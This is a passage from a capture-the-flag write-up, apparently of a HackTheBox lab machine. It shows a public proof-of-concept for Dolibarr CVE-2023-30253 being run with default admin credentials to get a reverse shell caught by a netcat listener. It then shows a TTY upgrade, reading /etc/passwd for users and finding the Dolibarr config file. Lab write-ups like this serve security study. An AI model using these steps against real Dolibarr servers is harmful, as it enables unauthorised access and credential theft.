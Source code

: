![](bino.png)

We can see that command gets executed.

![](exec.png)

### CVE-2023-30253 - POC script

![](https://media.tenor.com/R1TfzmBHEC0AAAAe/hacker-im.png)

I assume the `auto clean` scripts on the box is removing the created websites, I'll be using this [POC script](https://github.com/nikn0laty/Exploit-for-Dolibarr-17.0.0-CVE-2023-30253) to get a shell.

```bash
➜ python3 exploit.py http://crm.board.htb admin admin 10.10.14.78 9001
[*] Trying authentication...
[**] Login: admin
[**] Password: admin
[*] Trying created site...
[*] Trying created page...
[*] Trying editing page and call reverse shell... Press Ctrl+C after successful connection
```

On the listening port, there is a shell.

![](https://media.tenor.com/nPd-ijwBSKQAAAAe/hacker-pc.png)

```console
➜  ~ nc -nvlp 9001
listening on [any] 9001 ...
connect to [10.10.14.78] from (UNKNOWN) [10.129.238.92] 42378
bash: cannot set terminal process group (842): Inappropriate ioctl for device
bash: no job control in this shell
www-data@boardlight:~/html/crm.board.htb/htdocs/public/website$
```
**Upgrade the shell**
```
www-data@boardlight:~/html/crm.board.htb/htdocs/public/website$ script -qc /bin/bash /dev/null
<docs/public/website$ script -qc /bin/bash /dev/null
www-data@boardlight:~/html/crm.board.htb/htdocs/public/website$ ^Z
[1]  + 52159 suspended  nc -nvlp 9001
➜  ~ stty raw -echo;fg
[1]  + 52159 continued  nc -nvlp 9001

www-data@boardlight:~/html/crm.board.htb/htdocs/public/website$
```

## Shell as larissa

### Enumeration

As we can see there is only `root` and `larissa` user with a shell.
```
www-data@boardlight:~/html/crm.board.htb/htdocs/conf$ cat /etc/passwd | grep "bash"
root:x:0:0:root:/root:/bin/bash
larissa:x:1000:1000:larissa,,,:/home/larissa:/bin/bash
```
Enumerating around the `crm.board.htb` directory we can find The Dolibarr's configuration file `/var/www/html/crm.board.htb/htdocs/conf/conf.php`.

